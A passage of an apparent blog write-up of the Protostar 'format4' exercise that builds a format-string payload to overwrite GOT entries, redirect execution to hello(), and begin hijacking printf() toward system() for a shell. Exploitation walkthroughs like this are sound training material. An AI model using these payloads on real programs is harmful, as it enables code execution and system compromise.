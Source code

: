 And look for the memory address of the `hello()` function.

```
(gdb) print &hello
$1 = (void (*)(void)) 0x80484b4 <hello>
```

With all that information, we can calculate that the 4 `n`'s we need to supply
to the `%nu` format string parameters are 126, 208, 128 and 260. If you are
unsure how to do this, you can go back to format 3's explanation.

Putting everything together,

```shell
user@protostar:/tmp$ python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04\x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08' + '%x.'*3 + '%126u%n%208u%n%128u%n%260u%n'" | /opt/protostar/bin/format4
200.b7fd8420.bffff5d4.                                                                                                                      16843009                                                                                                                                                                                                        16843009                                                                                                                        16843009                                                                                                                                                                                                                                                            16843009
code execution redirected! you win
```

While this is the end of the challenge itself, it would be boring to end this
blog post without a shell. We will use the same GOT entry overwrite method
to obtain code execution on the target binary.

There is however a problem. If we overwrite `exit()` with `system()`, we will
end up calling `system(1)` and we have no way to change that value. Instead,
we will overwrite `exit()` with `vuln()` and `printf()` with `system()` so that
we can pass our shell command through `stdin` in the second call to `vuln()`.

We look for the memory address of the `system()` and `vuln()` functions.

```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xb7ecffb0 <__libc_system>
(gdb) print &vuln
$1 = (void (*)(void)) 0x80484d2 <vuln>
```

We successfully overwrite the GOT entries for `exit()` and `printf()`.

```
user@protostar:~$ python -c "print '\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08\x1c\x97\x04\x08\x1d\x97\x04\x08\x1e\x97\x04\x08\x1f\x97\x04\x08' + '%x.'*3 + '%n%n%n%n%n%n%n%n'" > a
(gdb) run < a
Starting program: /opt/protostar/bin/format4 < a
200.b7fd8420.bffff5b4.

Program received signal SIGSEGV, Segmentation fault.
0x36363636 in ?? ()

(gdb) x/x 0x0804971c
0x804971c <_GLOBAL_OFFSET_TABLE_+28>:   0x36363636
(gdb) x/x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x36363636
```
